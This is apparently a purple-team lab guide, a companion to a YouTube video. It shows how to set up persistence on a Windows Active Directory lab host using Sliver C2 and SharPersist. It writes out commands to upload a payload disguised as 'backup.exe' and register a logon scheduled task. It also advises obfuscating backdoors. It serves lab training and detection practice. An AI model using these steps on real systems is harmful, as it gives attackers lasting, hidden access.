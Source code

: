 ## **06 - How To Setup Persistence with Sliver - Purple Team Cyber Range with NHA-GOAD And Elastic Siem**

This guide is a companion to the **sixth video** in the **Purple Team Cyber Range** series. In this guide, we focus on establishing **persistence** using the **Sliver C2 framework** after gaining initial access, as demonstrated in the previous video. The lab environment, **NHA-GOAD**, is designed for both red and blue team exercises, providing a realistic Active Directory environment for attack and defense simulations.

## 📺 **Watch the Video**

**Video Title**: _06 - Persistence Setup - Purple Team Cyber Range with NHA-GOAD_  
[Watch the video on YouTube](https://youtu.be/BjOPT3t3i_c?si=Pz0Z3nU9ZbprWUMi)

## 🛠️ **Key Takeaways**

## 1. **What is Persistence?**

Persistence refers to techniques that allow an attacker to maintain long-term access to a compromised system, even after reboots or system patches. This is crucial for attackers who want to keep control of a system without needing to exploit it again after every reboot or cleanup effort.

## 2. **Where Persistence Falls in the Cyber Kill Chain**

Persistence is a critical step in the **Post-Exploitation** phase of the cyber kill chain. Once an attacker has successfully gained initial access to a target system (as demonstrated in video 5), they must establish mechanisms to maintain that access over time, even after reboots or defensive measures. Persistence techniques, such as creating scheduled tasks, services, or registry modifications, ensure that the attacker’s foothold remains intact and allows them to regain control of the compromised system without needing to exploit it again. This step is crucial for long-term operations and maintaining access through disruptions like system reboots or user logouts.

## 3. **Steps to Establish Persistence Using Sliver**

We will cover one key persistence technique:

- Creating a scheduled task that runs at system startup.

## Previous Videos:

- [Video 1: How to Deploy a Cyber Range Using Ludus: NHA-GOAD for Purple Teaming & Elastic Security SIEM](https://youtu.be/cjTzWQ_Si3U)
- [Video 2: How to Connect to Ludus GOAD with Elastic Using WireGuard](https://youtu.be/fM65Mm011bg)
- [Video 3: Testing Our Lab Against Default Sliver C2 Implants - The Lab Works!](https://youtu.be/L5DtvxOriOU)
- [Video 4: How to Install Sysmon in Active Directory Lab on Ludus](https://youtu.be/bK5Tnf92O-Y)
- [Video 5: Initial Access - Purple Team Cyber Range with NHA-GOAD](https://youtu.be/ahpytVKtwK8)

## 🚀 **Getting Started**

## 1. **Establishing Persistence Using Sliver**

Assuming you have already gained access through a Sliver session (as demonstrated in video 5), we will now set up persistence using a scheduled task that runs at system startup and executes a payload.

## A. **Create a Scheduled Task That Runs at System Startup**

In this section, we will create a scheduled task using **SharPersist** that executes `C:\Windows\Tasks\backup.exe` every time the system starts.

## Step-by-Step Instructions:

1. **Upload your payload**:  
    First, upload your malicious payload (e.g., `backup.exe`) to the target machine:
    
    `upload /path/to/your/payload.exe C:\Windows\Tasks\backup.exe`
    
2. **Create a scheduled task using SharPersist**:  
    Use Sliver’s `execute-assembly` feature to run SharPersist and create a scheduled task that runs at system startup:
    
    `execute-assembly /home/kali/payloads/SharPersist.exe -t schtask -c "C:\Windows\Tasks\backup.exe" -n "BackupTask" -m add -o logon`
    
    - `-t schtask`: Specifies that you're using the scheduled task technique.
    - `-c "C:\Windows\Tasks\backup.exe"`: Specifies the command (your payload) that will be executed.
    - `-n "BackupTask"`: The name of the scheduled task.
    - `-m add`: Adds the scheduled task.
    - `-o logon`: Ensures that the task triggers at system startup (logon).
    
3. **Verify task creation**:  
    After creating the scheduled task, verify it by listing all tasks:
    
    `execute-assembly /home/kali/payloads/SharPersist.exe -t schtask -m list`
    
4. **Manually trigger the task (optional)**:  
    If you want to test whether your payload works without waiting for a reboot, you can manually trigger the scheduled task:
    
    `execute "schtasks /run /tn BackupTask"`
    
5. **Remove the scheduled task (optional)**:  
    If you need to remove this persistence mechanism later, you can use SharPersist’s `remove` option:
    
    `execute-assembly /home/kali/payloads/SharPersist.exe -t schtask -n "BackupTask" -m remove`
    

## B. **Additional Tips for Maintaining Persistence**

- Use obfuscation techniques to hide your backdoor services or users from detection.
- Regularly monitor your persistence mechanisms to ensure they are still functioning.
- Consider using more advanced techniques like DLL hijacking or registry modifications for stealthier persistence.

## ⚠️ **Disclaimer**

This project is intended for educational purposes only. The tools and techniques demonstrated should only be used in environments where you have explicit permission to perform penetration testing or security assessments. Unauthorized use of these tools may violate laws and regulations.

## 🔧 **Tools Used**

- **Ludus Platform**: A cloud-based platform for deploying cybersecurity labs.
- **NHA-GOAD**: A pre-configured Active Directory environment designed for attack and defense simulations.
- **Sliver C2 Framework**: An open-source command-and-control framework used by attackers for post-exploitation tasks.
- **SharPersist**: A C# Windows persistence toolkit used for establishing various persistence methods.

Thank you for visiting! Be sure to subscribe to [I.T Security Labs on YouTube](https://www.youtube.com/@ITSecurityLabs) for more tutorials and updates!